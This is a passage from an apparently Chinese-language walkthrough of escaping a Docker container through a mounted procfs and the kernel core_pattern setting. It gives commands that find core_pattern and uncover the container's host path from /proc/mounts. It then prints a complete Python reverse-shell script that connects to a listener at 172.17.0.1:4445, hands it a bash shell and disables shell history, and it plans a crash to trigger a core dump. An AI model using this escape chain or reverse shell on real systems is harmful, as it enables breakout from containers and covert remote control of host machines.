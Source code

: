 这也是挂载procfs可以逃逸的核心点了

```php
find / -name core_pattern
```

![](assets/1703484795-02ad462c5de81937bb0ec7b1762e8b86.png)

接下来我们需要找到docker在当前宿主机的绝对路径

```php
cat /proc/mounts | xargs -d ',' -n 1 | grep workdir
```

![](assets/1703484795-446b2fa2bb828ee8dfd2585f20c5ca4c.png)

可以看出,当前的绝对路径为-->去除work换成merged

/var/lib/docker/overlay2/a96c15fc172fbec0b7251a44e21408746afa9e9571202132618ed251db3a84a4/merged

接下来我们需要准备一个**反弹shell的脚本**以及一个可以**制造崩溃,触发内存转储的代码**

抽丝剥茧,我们先来准备一个反弹shell的脚本

```php
vim /tmp/.ning.py
```

```php
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "172.17.0.1"
lport = 4445
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   # os.remove('/tmp/.ning.py')
   s.close()
if __name__ == "__main__":
   main()
```
